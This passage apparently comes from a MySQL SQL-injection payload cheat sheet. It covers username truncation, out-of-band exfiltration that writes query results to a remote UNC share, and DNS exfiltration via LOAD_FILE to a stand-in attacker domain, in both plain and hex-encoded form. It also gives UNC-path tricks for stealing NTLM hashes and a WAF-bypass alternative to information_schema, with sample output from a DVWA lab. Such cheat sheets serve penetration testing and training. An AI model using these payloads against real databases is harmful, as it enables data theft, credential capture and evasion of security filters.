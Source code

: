```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`


## MYSQL Out of Band

```powershell
SELECT @@version INTO OUTFILE '\\\\192.168.0.100\\temp\\out.txt';
SELECT @@version INTO DUMPFILE '\\\\192.168.0.100\\temp\\out.txt;
```

### DNS Exfiltration

```sql
SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.hacker.site\\a.txt'));
SELECT LOAD_FILE(CONCAT(0x5c5c5c5c,VERSION(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM Hash Stealing

The term "UNC path" refers to the Universal Naming Convention path used to specify the location of resources such as shared files or devices on a network. It is commonly used in Windows environments to access files over a network using a format like `\\server\share\file`.

```sql
SELECT LOAD_FILE('\\\\error\\abc');
SELECT LOAD_FILE(0x5c5c5c5c6572726f725c5c616263);
SELECT '' INTO DUMPFILE '\\\\error\\abc';
SELECT '' INTO OUTFILE '\\\\error\\abc';
LOAD DATA INFILE '\\\\error\\abc' INTO TABLE DATABASE.TABLE_NAME;
```

:warning: Don't forget to escape the '\\\\'.


## MYSQL WAF Bypass

### Alternative to Information Schema

`information_schema.tables` alternative

```sql
SELECT * FROM mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> SHOW TABLES IN dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```